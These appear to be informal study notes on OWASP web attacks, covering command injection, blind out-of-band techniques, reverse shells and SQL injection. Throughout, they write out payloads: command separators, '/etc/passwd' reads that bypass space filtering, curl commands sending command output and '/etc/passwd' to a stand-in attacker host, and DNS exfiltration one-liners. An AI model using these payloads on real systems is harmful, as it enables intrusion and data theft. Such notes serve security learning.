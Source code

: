 # OWASP
## Command Injection
### Basics
whenever we see a suspicious input, we fuzz it. we need to use command separators.
> Recon means try to detect the injection. *it coms from recognize*
```console
; #cut the befoce cmd
&& #run this cmd if that command is tru
| #give result of last cmd to next
|| #is or
`code here` #it open a cmd executor
$(code here) #it opens a cmd exec
{code,here} #if we cant use space
cat$IFS/etc/passwd # if we cant use space ($IFS means space)
cat ${HOME:0:1}etc${HOME:0:1}passwd # {HOME:0:1} means /
```
Out of band means use web app for in out of boundry. *for example use to web send request to another space*
it can be DNS, HTTP or ...
we use this method when doesnt return the output of the injected command. for blind.
we request to our server.
```console
; wget attecker.com
```
#### let's read
- [we hacked apple for 3 months](samcurry.net/hacking-apple/#vuln4)
- [LocalTapiola: RCE using bash command](hackerone.com/reports/303061)

### Data Exfiltration
For Data Exfiltration (extracting data) u should use these two:
- HTTP Data Exfiltration
- DNS Data Exfiltration

#### HTTP
> search request catcher to get a simple server for testing out of bound.

for sending a command or file use these two:
```console
curl https://attacker.tld -d $(cmd) # for cmd result
curl https://attacker.tld --data-binary @/etc/passwd # for sending file
```
#### DNS
>  look for dns logger to get dns requests (DNS). an example is [DNSbin](dnsbin.zhack.ca)

command is:
```console
ping -c 1 $(whoami).attacker.tld # for sending cmd result
uname -a | od -A n -t x1 | sed 's/ *//g' | while read exfil; do ping -c 1 $exfil.attacker.tld; done # for sending hexed file
```
### Reverse Shell
for reverse shell we force the target machine to connect back to attacking machine.

Procedure:
- attacker's machine listen on a port
- victim's machine connect to the port
- victim spawns a shell
- attacker will have the shell

> look at this [site](revshells.com) for get some payload.

> commix is sth like sqlmap :)


## RCE
rce means u can put code in web app.
for inline import in python u can use this:
```python
__import__('PACKAGE_NAME').FUNCTINON('ARGS')
```

## SQL Injection
in sqli we wanna exploit the query.
this is a simple sqli
```sql
SELECT FROM USER WHERE username = ''; SELECT 1=1; --
```

### intraction
we have three kind of intraction between web app and sql.
- data returns directly to user
- data processed and the result shows to user
- nothing returns to user

#### Direct
look at this example:
> https://site.com/news/54

in this case 54 is id of a data in sql so the qury must be like one of this:
```sql
SELECT * FROM news WHERE news_id = $NEWSID;
SELECT * FROM news WHERE news_id = '$NEWSID';
SELECT * FROM news WHERE news_id = "$NEWSID";
```
so it shows all thing to us directly and we can exploit it by **UNION**.

#### Indirect
suppose we wanna buy sth from a shop and when we click on a product it query to sql and if it has it shows us exist else doesnt exist.
so in this case data is porocessed and then the result shown us.
query must be like this:
```sql
SELECT IF ((SELECT count FROM products WHERE product_id = $PRODUCT_ID) > 0, 1, 0) # 0 or 1
```
here doesnt show data just an effect of it.

*We use blind sqli in this case **(boolean based)***

#### NO result
for example for users and ips of a web app it doesnt show u any data. but will do sth.
```sql
INSERT INTO table_name VALUES (value1, value2, ...)
```
there is no view here but we have time effect.

*so we use blind sqli as a **time based***

